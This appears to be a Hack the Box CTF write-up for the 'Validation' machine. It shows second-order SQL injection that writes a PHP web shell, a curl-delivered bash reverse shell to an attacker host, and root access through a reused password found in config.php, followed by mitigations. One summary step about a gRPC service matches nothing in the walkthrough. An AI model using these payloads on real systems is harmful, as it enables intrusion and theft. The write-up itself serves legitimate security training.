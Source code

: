 ```yaml
--- 
title: "Hack the Box (HTB) - Validation"
description: "Second-Order SQL Injection & Hardcoded Credentials"
date: 2024-07-13 12:00:00 -100
image: /assets/images/HTB - Validation Pics/Validation_Thumbnail.png
categories: [CTF]
tags: [sql injection, privilege escalation, password reuse, docker, web application]    # TAG names should always be lowercase
---
```


## Enumeration

We'll start with an [autorecon](https://github.com/Tib3rius/AutoRecon) scan against our target machine

```bash
sudo autorecon <ip>
```

Looking at the results, we see the following ports open

- 22 (SSH)
- 80 (HTTP)
- 4566 (HTTP)
- 8080 (HTTP)
- Various filtered ports

![Nmap Scan](/assets/images/HTB%20-%20Validation%20Pics/Nmap%20scan_validated.png)

We'll start with the low hanging fruit of this scan and check out the apache web server hosted on port 80. It appears to be a docker container as SSH identifies as `Ubuntu` and the web server identified as `Debian`

![Web page](/assets/images/HTB%20-%20Validation%20Pics/Web%20page.png)

Let's type in our user and check the request in burp

![Burp](/assets/images/HTB%20-%20Validation%20Pics/inital_burp.png)

let's toss this over to repeater with `CTRL + R` and examine the request & responses

The first thing we notice is the static `cookie` that we get when sending the request

The length of the cookie is 32 characters and is a `MD5` of our username. MD5 is obviously deprecated and would be a finding on a real vulnerability assessment but for our purposes in this CTF we will move forward

Let's try a simple SQL injection on the country parameter since we couldn't manually edit that in the GUI

```bash
username=Jigsaw64&country=Anguilla' 
```

Copying the cookie and editing it into our cookie user field We see the following error:

 `Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in
/var/www/html/account.php:33 Stack trace: #0 {main} thrown in /var/www/html/account.php
on line 33`

![Fatal error](/assets/images/HTB%20-%20Validation%20Pics/Fatal%20error.png)

Our single quote `'` seems to have broken the SQL query and gave us an error.

Let's try commenting out the rest of the statement with `-- -`

The error went away once we commented out the rest of the query. This confirms that we have SQLi

Let's enumerate the number of columns by adding a simple union select statement

```SQL
username=Jigsaw94&country=Brazil' union select  1-- -
```

![No SQL error](/assets/images/HTB%20-%20Validation%20Pics/No%20SQL%20error.png)

No error, which confirms that we only have on column

With this we can now use the union select to insert a php shell 

```PHP / SQL
Brazil' UNION SELECT '<?php system($_REQUEST["cmd"]); ?>' INTO OUTFILE '/var/www/html/pwned.php'-- -
```

- `system()` PHP function used to execute shell commands
- `$_REQUEST["cmd"]` PHP superglobal variable that grabs the value of cmd parameter from the HTTP request
- `INTO OUTFILE` writes the query to a file
- `-- -` comment out the remaining SQL

Our SQL statement will take the value of our HTTP request and write it to `pwned.php`

After submitting the payload, we will need to visit `/account.php`. Our payload won't trigger until we load that, which makes this a [Second-Order SQL Injection](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)

![Pwned PHP Uploaded](/assets/images/HTB%20-%20Validation%20Pics/Pwned%20php.png)

We see another error but this is due to the fact that our query did not return any columns or rows. We should be able to navigate to `pwned.php` and verify that our injection worked

![CMD1](/assets/images/HTB%20-%20Validation%20Pics/CMD1.png)

It looks like it works. The error is only due to the fact that we did not supply a command

![CMD2](/assets/images/HTB%20-%20Validation%20Pics/CMD2.png)

With this confirmation of RCE. Let's curl a shell request. We'll set up our `nc` listener and enter the following curl command

```bash
curl -X POST http://10.10.11.116/pwned.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/<YOURIP>/PORT 0>&1"'
```

![Shell Obtained](/assets/images/HTB%20-%20Validation%20Pics/Shell%20Obtained.png)

We have our shell. Since python is not installed on t his container I am going to use the following to upgrade to a pty

```bash
script -q /dev/null
```

![Upgraded shell](/assets/images/HTB%20-%20Validation%20Pics/Upgraded%20shell.png)

We immediately notice a `config.php` file. This is gold, let's take a look

![Config.php](/assets/images/HTB%20-%20Validation%20Pics/password.png)

We see a password `uhc-9qual-global-pw` here, let's try switching to root with this

![Root](/assets/images/HTB%20-%20Validation%20Pics/Root.png)

GG, we've obtained root on this box

## Summary

1. Initial enumerating discoverd Web server
2. Utilized second-order SQLi to get RCE
3. Connected back to our attacker machine via RCE
4. Found & exploited the gRPC service via SQLi
5. Discoverd config.php file with credentials
6. Used credentails from config.php to root machine

## Vulnerabilities & Mitigation

| Vulnerability     | Mitigation            |
|-------------------|-----------------------|
| Static Cookies Assigned by Username  | Use secure, ephemeral, randomly generated session identifiers |
| Use of Deprecated Hash (MD5) | Use a stronger hash function like SHA-256 or bcrypt|
| SQL Injection     | Validate and sanitize user input. Use prepared statements|
| Password Reuse | Don't reuse passwords!

### Remediation References

- [OWASP Secure Cookie Practices](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#secure-cookies)
- [Second-Order SQL Injection](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)
